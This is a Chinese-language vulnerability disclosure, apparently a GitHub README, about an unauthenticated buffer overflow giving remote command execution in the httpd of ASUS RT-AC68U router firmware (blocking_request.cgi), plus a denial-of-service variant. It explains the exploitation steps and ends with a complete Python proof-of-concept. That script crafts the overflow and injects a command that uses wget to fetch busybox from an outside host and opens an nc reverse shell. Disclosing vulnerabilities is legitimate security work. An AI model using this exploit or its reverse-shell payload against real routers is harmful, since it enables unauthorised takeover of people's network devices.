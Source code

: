 # 前言
我在AC68U RT-AC68U_3.0.0.4_384_45713-g0f2983e.trx固件版本中发现了2个漏洞。
- 漏洞①：blocking_request.cgi  高危:未授权任意命令执行

  在httpd二进制文件中，攻击者可在未登陆验证的情况下发送特定的数据包成功利用此问题，可通过控制timestap参数进行缓冲区溢出达到任意命令执行效果

- 漏洞②：blocking.cgi  低危:授权拒绝服务
 原理同漏洞①但是经测试，无法达到任意命令执行效果，但是攻击后会将设备打崩且无法通过reset重启，需要通过救援模式刷固件
 
  在httpd二进制文件中，攻击者可在登陆验证的情况下发送特定的数据包成功利用此问题，可通过控制CName | Interval | timestap任一参数进行缓冲区溢出达到拒绝服务效果

# 漏洞类型
缓冲区溢出

# 漏洞描述
在web服务对应二进制文件httpd中，攻击者可在未登陆验证的情况下，通过控制timestap参数进行缓冲区溢出触发漏洞达到远程任意命令执行的效果

# 影响范围
AC68U FirmwareVersion < 3.0.0.4.385.20633 
</br>
RT-AC5300 FirmwareVersion <3.0.0.4.384.82072
</br>
. . . . . .
</br>
此漏洞影响多个路由器型号，具体型号暂未统计，官方2020年8-9月份修复的RCE漏洞（如下图）似乎就是这个
</br>
![image](https://user-images.githubusercontent.com/45091804/146535975-97051c7f-a65e-465a-8ed6-bc15ae5f6e6c.png)

# 漏洞触发流程
**本次数据基于固件版本AC68U 3.0.0.4.384.45713**
</br>
CName、mac、interval、timestap参数内容均为可控
</br>
### 流程1. 构造timestap、mac参数满足条件通过判断条件
 ①系统时间+3600-atol(timestap参数)<20 （timestap参数:通过一次空包返回内容来计算时间戳（注意需要根据设备系统设置时区计算）
 ![image](https://user-images.githubusercontent.com/45091804/146538461-c4dcb76e-d911-42c3-8c2d-ba7e1309f06f.png)
 </br>
 ②sub_11840函数为nvram_get，初始MULTIFILTER_MAC值为空，str("",mac)，所以mac必须为空
  </br>
  
 ![image](https://user-images.githubusercontent.com/45091804/146538587-02d5ce10-1572-4c4b-b148-9dbfcf84840d.png)

### 流程2. 绕过atol函构造timestap参数
atol(1639469133aaaaaaa.....)返回内容为1639469133,所以只需要在计算好的时间戳后面填充即可，通过strcat函数触发漏洞
![image](https://user-images.githubusercontent.com/45091804/146538789-fe6e5a14-2b47-4c13-8bf5-a202dbe2f7ed.png)

# 漏洞利用
1. timestap参数第一次尝试填充4740 * a,查看栈中数据，还有40个字节需要填充，也就是时间戳 + 4880* a + p32(addr)
![image](https://user-images.githubusercontent.com/45091804/146540066-b3f23900-0969-4edd-9deb-8dc8632abae9.png)

2. 调试中发现会提前崩溃，逐步跟踪，发现崩溃点位于json_object_put函数，此函数参数会从栈上取数据（原数据值为0），而栈被覆盖了后取的数据导致提前崩溃
![image](https://user-images.githubusercontent.com/45091804/146541130-4c897ae3-6172-48d9-a902-0534d2f83480.png)

3. libjson-c.so.2.0.2查看json_object_put函数原型，a1就是栈上取的参数，也就是只有当满足条件a1=0 或 *(a1+12)-- != 1 才能保持正常返回。由于是strcat函数导致溢出，栈中数据出现00会截断。注意下图左边汇编代码，LDR是取内容，--后比较完后会通过STR指令将内容写回原地址，所以在覆盖返回地址前，理论上构造参数：时间戳 + 4840* a +p32(addr) +32*a +p32(addrToSystem) addr必须满足条件：可读、可写、无00
![image](https://user-images.githubusercontent.com/45091804/146541761-919669df-f73b-4917-8484-256c3f8ca10c.png)
4. 寻找合适地址
- 查看区段信息，未发现所需地址
- 查看lib库，开启了PIE，无法利用 （碰撞libc地址，因为概率太低不进行尝试了）
![image](https://user-images.githubusercontent.com/45091804/146541939-f0c53a5c-232e-4d2a-ae04-8dfb25d81d58.png)
5. 然而json_object_put函数内部有个函数指针调用，而a1的值是可控的，也就是不用覆盖到返回地址也可以劫持PC
![image](https://user-images.githubusercontent.com/45091804/146554377-df982dfb-d21a-4a3b-a0a6-f9ac650e5244.png)

6. 观察bss段数据 发现CName、mac、interval、timestap内容都存在bss段，且bss段可读可写。
构造结构如下图，且运行到json_object_put函数内，准备跳转前，发现R10的内容保存的是CName参数内容。
<sup> 


  
  
     #cmd：需要执行的命令
     #timeStapStr：计算好的时间戳
     #addr：interval参数内容首地址，需要根据cmd命令的长度进行调整
    'CName': cmd，
    'mac': '',
    'interval': 'a'*12+p32(1)+'a'*16+p32(0x0000EFA8),
    'timestap': timeStapStr +'a'*4740+p32(addr) 



</sup>

![image](https://user-images.githubusercontent.com/45091804/146554630-170a7eb3-5f7b-437b-8e44-6ad19c19f2cb.png)

# 漏洞演示
  [![Watch the video](https://raw.github.com/GabLeRoux/WebMole/master/ressources/WebMole_Youtube_Video.png)](https://youtu.be/9rpNKSVQtFM)
  
# POC 
POC需要根据不同版本调整
</br>
以下是争对3.0.0.4.384.45713固件版本的POC
<sup> 


  
    
    #coding=utf-8
    from pwn import *
    import re
    import time
    import requests
    import urlparse
    import urllib3
    urllib3.disable_warnings()
    import sys

    def rematch(strTmp):
        tm_year = strTmp[0][2]
        tm_month = strTmp[0][1]
        tm_day = strTmp[0][0]
        tm_hour = strTmp[0][3]
        tm_min = strTmp[0][4]
        tm_sec = strTmp[0][5]
        if tm_month == 'Jan':
            tm_month = '01'
        if tm_month == 'Feb':
            tm_month = '02'
        if tm_month == 'Mar':
            tm_month = '03'
        if tm_month == 'Apr ':
            tm_month = '04'
        if tm_month == 'May':
            tm_month = '05'
        if tm_month == 'Jun':
            tm_month = '06'
        if tm_month == 'Jul':
            tm_month = '07'
        if tm_month == 'Aug':
            tm_month = '08'
        if tm_month == 'Sept':
            tm_month = '09'
        if tm_month == 'Oct':
            tm_month = '10'
        if tm_month == 'Nov':
            tm_month = '11'
        if tm_month == 'Dec':
            tm_month = '12'
        tm_hour = int(tm_hour) + 8
        time_tmp = '{}-{}-{} {}:{}:{}'.format(tm_year, tm_month, tm_day, tm_hour, tm_min, tm_sec)
        print(time_tmp)
        ts = time.strptime(time_tmp, "%Y-%m-%d %H:%M:%S")
        timeStamp= int(time.mktime(ts))
        return timeStamp


    def getTime(url):
        scheme =  urlparse.urlparse(url).scheme
        hostname = urlparse.urlparse(url).hostname
        header={
            'Host': hostname,
            'Cache-Control': 'max-age=0',
            'Upgrade-Insecure-Requests': '1',
            'Origin': scheme+'://'+hostname,
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'Referer': scheme+'://'+hostname,
            'Accept-Encoding': 'gzip, deflate',
            'Accept-Language': 'zh-CN,zh;q=0.9',
            'Connection':'close'
        }
        data1 ={
            'CName': '',
            'mac': '',
            'interval': '',
            'timestap': '',
        }
        url = url+'/blocking_request.cgi'
        ret = requests.post(url = url ,
                      headers = header,
                      data = data1,
                      verify=False)
        format_time =''
        for key, value in (ret.headers).items():
            if 'Date' in key:
                format_time = value
        tmp = re.findall(r', (.*?) (.*?) (.*?) (.*?):(.*?):(.*?) GMT',format_time)
        timeStap = rematch(tmp) + 3600
        timeStapStr = str(timeStap)
        print(timeStapStr)
        data2 ={
            'CName': 'cd /tmp/home/root;wget http://192.168.2.177:8080/busybox-armv6l;chmod 777 *;./busybox-armv6l nc 192.168.2.177:1234 -e /bin/ash',
            'mac': '',
            'interval': 'a'*12+p32(1)+'a'*16+p32(0x0000EFA8),   
            'timestap': timeStapStr +'a'*4740+p32(0x0006FE35),   #p32(addr) 此addr为interval参数内容首地址

        }
        ret = requests.post(url = url ,
                      headers = header,
                      data = data2,
                      verify=False,)
        print('End')


    if __name__ == '__main__':
        url = sys.argv[1]
        getTime(url)



</sup>

